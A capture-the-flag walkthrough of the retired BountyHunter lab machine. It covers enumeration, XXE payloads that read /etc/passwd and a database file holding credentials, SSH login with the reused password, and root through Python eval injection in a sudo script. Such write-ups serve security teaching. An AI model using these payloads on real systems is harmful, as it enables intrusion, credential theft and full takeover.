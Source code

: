 # BountyHunter

This is the write-up for the box BountyHunter that got retired at the 20th November 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.100    bountyhunter.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/bountyhunter.nmap 10.10.11.100
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d44cf5799a79a3b0f1662552c9531fe1 (RSA)
|   256 a21e67618d2f7a37a7ba3b5108e889a6 (ECDSA)
|_  256 a57516d96958504a14117a42c1b62344 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service has a custom developed website and on the top right is a menu.
One of the menus _"Portal"_ forwards to _portal.php_, which is under development and contains another link to _log_submit.php_.

The title of the page is _"Bounty Report System - Beta"_ and has four input fields:

![Bounty report system](bountyhunter_web-1.png)

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.11.100 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds _db.php_, that has no contents when browsing there and the directory _/resources_ which contains JavaScript files and one _README.txt_ with a ToDo list:
```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

By sending data to the form on _log_submit.php_ and intercepting the request with a proxy like **Burpsuite**, the request can be analyzed:
```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
(...)

data=PD94bWwgIHZlcnNpb24(...)
```

The value of the parameter _data_ is Base64 encoded and when decoding, it shows that it is **XML** data:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>Test1</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
		</bugreport>
```

When seeing XML in a HTTP request, a recommendation is to test for **XML External Entity Injection (XXE)**.
Several payloads can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) and we can test a basic request:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY example "Doe"> ]>
		<bugreport>
		<title>&example;</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
		</bugreport>
```

After Base64-encoding and URL-encoding the data, the entity will be parsed and displays _"Doe"_ in the specified tags.

Testing to retrieve _/etc/passwd_ file:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>&test;</title>
(...)
```

It works and the vulnerability can be used to read files of the web service like _db.php_.
As PHP files have many special characters, it is possible to extract them with a **PHP filter**:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
(...)
```

The file can now be Base64-decoded and it contains credentials:
```
cat db.b64 | base64 -d
```
```php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```

In the _/etc/passwd_ file, it showed the only user with shell access is _development_, so lets test if the password was reused for this user on SSH:
```
ssh development@10.10.11.100
```

The password was reused and login is possible.

## Privilege Escalation

When checking the `sudo` privileges, the user _development_ is able to execute a Python script as root:
```
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

The Python script _ticketValidator.py_ loads a file that has to have specific conditions:
- File extension ends with _.md_
- Starts with _"# Skytrain Inc"_
- Starts with _"## Ticket to "_
- Starts with _"\_\_Ticket Code:\_\_"_
- Starts with "**"
- Ticket code % 7 == 4

At the end it uses the _eval_ function, which can be used to execute arbitrary code.

Creating the payload _inject.md_ as the script needs it:
```
# Skytrain Inc
## Ticket to  
__Ticket Code:__
**11+__import__("os").system("id")
```

Executing _ticketValidator.py_:
```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
```
Please enter the path to the ticket file.
inject.md
Destination:
uid=0(root) gid=0(root) groups=0(root)
Invalid ticket.
```

The syntax is correct and it successfully executes the `id` command, so the payload can be used to execute `bash`:
```
(...)
**11+__import__("os").system("bash")
```

After executing _ticketValidator.py_, it starts a shell as root!
